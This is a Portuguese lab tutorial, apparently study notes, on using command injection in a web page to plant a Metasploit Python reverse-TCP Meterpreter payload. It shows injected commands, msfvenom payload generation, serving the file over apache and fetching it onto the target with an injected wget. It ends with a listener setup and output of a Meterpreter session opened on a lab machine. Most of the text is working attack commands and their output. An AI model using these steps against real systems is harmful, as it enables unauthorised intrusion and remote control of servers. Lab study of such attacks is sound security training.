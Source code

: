# Command Injection com Meterpreter

**Objetivo:** repetir o exercício de invasão web com command injection, porém carregando um payload na máquina alvo para nos permitir acesso a um meterpreter.

## Conhecendo mais sobre o servidor web

Utilizando o injeção de comandos, podemos saber um pouco mais sobre o servidor que hospeda a página sendo atacada.

* Para conhecer o sistema operacional: `; uname -a`
  !Comando
  !Resposta
  O servidor usa o Linux
* Para conhecer a arquitetura: `; uname -m`
  !Comando
  !Resposta
  Com uma arquitetura de 32 bits
  
## Criação do payload

Criaremos o payload através do aplicativo msfvenom do metasploit.

### Passo 1 - Procura e escolha o payload

Comando: `msfvenom -l payloads | grep <filtro>`

```
$ msfvenom -l payloads | grep meterpreter | grep python
                                       
    cmd/unix/python/meterpreter/bind_tcp                               Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection
    cmd/unix/python/meterpreter/bind_tcp_uuid                          Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection with UUID Support
...
    python/meterpreter/reverse_tcp                                     Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker
    python/meterpreter/reverse_tcp_ssl                                 Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Reverse Python connect back stager using SSL
    python/meterpreter/reverse_tcp_uuid                                Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker with UUID Support
    python/meterpreter_bind_tcp                                        Connect to the victim and spawn a Meterpreter shell
    python/meterpreter_reverse_http                                    Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_https                                   Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_tcp                                     Connect back to the attacker and spawn a Meterpreter shell
```
Selecionamos o payload **python/meterpreter/reverse_tcp**. 

### Passo 2 - Configuração e criação do payload

Para conhecer as opções de configuração do payload, usamos o msfconsole do metasploit:

```
$ msfconsole                                                                                    
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  
       =[ metasploit v6.4.84-dev                                ]
+ -- --=[ 2,547 exploits - 1,309 auxiliary - 1,683 payloads     ]
+ -- --=[ 432 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > use python/meterpreter/reverse_tcp

msf payload(python/meterpreter/reverse_tcp) > show options

Module options (payload/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


View the full module info with the info, or info -d command.

msf payload(python/meterpreter/reverse_tcp) > exit
```
Criamos o payload informando o IP e a porta de escuta:
```
$ msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=6666 >>meu_payload.py
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 432 bytes
```
`>>meu_payload` informa o arquivo de saída com o payload. No caso, meu_payload.py gravado no diretório corrente.
```
$ ls *.py                                                                                
meu_payload.py
```
## Disponibilização do payload

### Passo 1 - iniciar o serviço web
```
$ sudo service apache2 start
[sudo] senha para OpsShadow: 
```
### Passo 2 - copiar o payload para o serviço web
```
$ sudo cp meu_payload.py /var/www/html/                                                         

$ ls /var/www/html                                                         
index.html  index.lighttpd.html  index.nginx-debian.html  meu_payload.py
```
### Passo 3 - copiar o payload para a máquina alvo
`; wget <ip>/<payload>`
### Passo 4 - encerrar o serviço web
`$ sudo service apache2 stop `
## Execução do ataque

### Passo 1 - iniciar a escuta
Iniciamos a escuta informando o IP e a porta de escuta (a  mesma do payload), e o payload
```
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set LHOST 192.168.1.10
LHOST => 192.168.1.10

msf exploit(multi/handler) > set LPORT 6666 
LPORT => 6666
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:6666

msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
```
### Passo 2 - Executar o payload no alvo



### Resultado
```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:6666 
[*] Sending stage (24772 bytes) to 192.168.1.33
[*] Meterpreter session 1 opened (192.168.1.10:6666 -> 192.168.1.33:38448) at 2025-09-12 00:10:58 -0300

meterpreter >
```
Abertura do meterpreter com acesso a máquina alvo.
